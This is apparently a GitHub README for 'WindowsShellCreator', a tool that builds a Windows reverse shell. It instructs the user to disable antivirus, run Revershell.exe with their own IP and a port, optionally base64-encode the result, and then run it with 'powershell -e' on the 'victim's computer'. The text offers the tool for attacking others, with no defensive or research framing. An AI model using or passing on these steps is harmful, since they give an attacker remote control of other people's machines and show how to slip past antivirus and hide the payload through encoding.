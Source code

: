 # WindowsShellCreator
### (Stable Release)

## How to Use ?
1. Disable AntiVirus Software
2. Download Zip File 
3. Extract File
4. Open CMD or Powershell as Administrator 
5. type "Revershell.exe -H '```your device ip```' -p '```Choose your port number```' -b64 '```y/n```'"
### Note- You must specify whether you want base64 encoding via the ``` -b64 ``` flag.

## How to use base64 encode script ?
#### -> Copy the base64 code and go to victim's computer and type ``` *powershell -e* ``` and paste the copied base64 script [e.g.*powershell -e 'base64encode here'*]
